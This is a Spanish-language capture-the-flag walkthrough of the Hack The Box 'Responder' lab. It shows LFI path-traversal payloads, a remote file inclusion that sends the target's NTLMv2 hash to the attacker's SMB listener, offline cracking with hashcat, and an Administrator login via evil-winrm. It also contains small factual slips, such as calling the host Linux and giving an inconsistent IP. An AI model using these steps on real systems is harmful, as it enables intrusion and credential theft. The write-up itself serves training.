

# Máquina Responder

#### OS: Windows
#### Tier: Starting Point
#### Released on: 6/4/2022
#### IP de ejemplo: 10.129.113.104

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 10.129.113.104
```
```
PORT     STATE SERVICE   REASON
80/tcp   open  http      syn-ack ttl 127
5985/tcp open  wsman     syn-ack ttl 127
7680/tcp open  pando-pub syn-ack ttl 127
```
vemos unos cuantos puertos, alguno de ellos nos indica que estamos ante una máquina Linux (WinRM en el 5985). Aun así vamos a asegurarnos lanzando un ping al sistema

```
❯ ping -c 1 10.129.113.104
```
```
PING 10.129.113.104 (10.129.113.104) 56(84) bytes of data.
64 bytes from 10.129.113.104: icmp_seq=1 ttl=127 time=222 ms

--- 10.129.113.104 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
```
vemos que el TTL es de 127, recordemos que los valores de TTL predeterminados son `64` para Linux y `128` para Windows. Aquí muestra 127 pues pasamos por un nodo intermediario tanto a la ida como a la vuelta, lo que en máquinas Linux podemos comprobar con el flag -R de ping. Sin embargo en máquinas Windows no es posible.

ahora que ya sabemos que es una máquina Windows vamos a escanear todos los puertos usando los scripts básicos de nmap y la versión para cada uno (-sCV)
```
nmap -sCV -p80,5985,7680 -T4 10.129.113.104
```
```
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
nmap también nos dice que estamos ante una máquina Windows. el puerto 5985, aunque ponga http, es el servicio de administración remota de Windows, WinRM, por lo que podremos conectarnos a la máquina con la herramienta `evil-winrm` si conseguimos credenciales válidas.
Por ahora conectémonos al servicio web



no podemos acceder pues se está aplicando `virtual hosting`. Esto es, navegar a la `IP` del servidor (10.129.113.104) puede dar una página distinta que navegando al `dominio`(unika.htb).
En este caso se está aplicando un redirect de 10.129.113.104 a unika.htb. Vamos a incluirlo en el `/etc/hosts` para que nuestra máquina lo resuelva correctamente
```
sudo nano /etc/hosts
```
el /etc/hosts se ve algo así:
```
127.0.0.1       localhost
127.0.1.1       local-hostname

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
añadimos esta línea al final del todo, para que resuelva el dominio unika.htb a la IP 10.129.95.234:

`10.129.113.104 unika.htb`
guardamos los cambios con `Crtl+o Enter Ctrl+x`y recargamos la página


vemos una página moderna e interactiva. Exploramos la web pulsando en los distintos apartados de la barra superior, donde pone `Home About Services Works Prices Contact EN ` . Cuando llegamos al apartado de EN vemos que se despliegan idiomas, probemos a cambiarlo a `FR`.


El idioma ha cambiado a francés, pero lo que más me llama la atención es la forma de representarlo en la URL:

```
http://unika.htb/index.php?page=french.html
```
esto podría ser vulnerable a LFI (Local File Inclusion) via el parámetro page. Vamos a probar a listar el /etc/hosts de Windows (C:\Windows\System32\drivers\etc\hosts)
```
http://unika.htb/index.php?page=..\\..\\..\\..\\..\\Windows\System32\drivers\etc\hosts
```
```
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
<SNIP>
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
efectivamente, acabamos de confirmar Local File Inclusion en el parámetro page. Esto ocurre pues se está usando el statement `include()`, lo que es visible al apuntar a cualquier archivo inexistente

http://unika.htb/index.php?page=pwned
```
Warning: include(pwned): Failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 11

Warning: include(): Failed opening 'pwned' for inclusion (include_path='\xampp\php\PEAR') in C:\xampp\htdocs\index.php on line 11
```
podemos llevar esta vulnerabilidad aún más allá: 
si el `php.ini` del servidor tiene `allow_url_include = On`, podemos apuntar a hosts externos por SMB (?page=\\IP\recurso). Esto se conoce como RFI o Remote File Inclusion. 

Vamos a levantar un servidor SMB falso, que se encargue de recoger el hash que la máquina víctima manda como desafío a nuestro equipo con el fin de autenticar la conexión. Para ello usaremos Responder, una herramienta de Laurent Gaffney que levanta listeners de SMB, HTTP, FTP, MSSQL, etc., y se queda esperando conexiones, además de actuar como envenenador LLMNR/NBT-NS/mDNS, aunque para esta parte eso no será necesario.

para usar la herramienta debemos usar el siguiente formato:
```
sudo responder -I <interfaz> [opciones]
```
en este caso vamos a escuchar en la interfaz de red `tun0`, la de la VPN deHack The Box, y sin proporcionar argumentos, pues no será necesario
```
sudo responder -I tun0
```

En la web podemos usar algo como esto:

http://unika.htb/index.php?page=//10.10.14.223/test

> 2 cosas a aclarar:
1. debes modificar la IP con la tuya propia; (`ip a show tun0`)
2. el archivo file no tiene por qué existir

Al volver a Responder vemos un hash, acompañado de un usuario:
```
[SMB] NTLMv2-SSP Client   : 10.129.113.104
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:1d02c7b66f78eb77:5176D1DFFA8BC00B5832DEF639F9EB43:010100000000000080C8DEE52E71DD0139D7DA91177E8097000000000200080031004A005900360001001E00570049004E002D004900330035003900370048003700410052004E00530004003400570049004E002D004900330035003900370048003700410052004E0053002E0031004A00590036002E004C004F00430041004C000300140031004A00590036002E004C004F00430041004C000500140031004A00590036002E004C004F00430041004C000700080080C8DEE52E71DD010600040002000000080030003000000000000000010000000020000050339888A61D307189E1BA17D51D9F1A6B194A5D5F6C95D3BEBB8650305291F20A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200320033000000000000000000
```
El hash obtenido es NetNTLMv2, un desafío-respuesta que no puede reutilizarse como Pass-the-Hash. Su valor está en que permite crackearlo fuera de línea, a máxima velocidad y sin riesgo de bloqueo, hasta recuperar la contraseña en claro para conectarnos con PsExec o evil-WinRM.

Guardamos el hash en un archivo hash.txt, y lo identificamos con hashcat
```
❯ hashcat --identify hash.txt
```
deberíamos ver 
```
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   5600 | NetNTLMv2                                                  | Network Protocol
   ```

ahora vamos a crackearlo. Usamos hashcat con el formato 5600, el modo de ataque 0 (diccionario) y la wordlist `rockyou.txt`. EN cuestión de segundos rompemos el hash y vemos la contraseña en texto claro:

`ADMINISTRATOR::RESPONDER:<SNIP>:badminton`

ahora entremos con la herramienta evil-winrm, proporcionando la IP de la máquina, el usuario Admnistrator y la contraseña badminton

`*Evil-WinRM* PS C:\Users\Administrator\Documents>`

podemos encontrar la flag en `C:\Users\mike\Desktop\flag.txt`
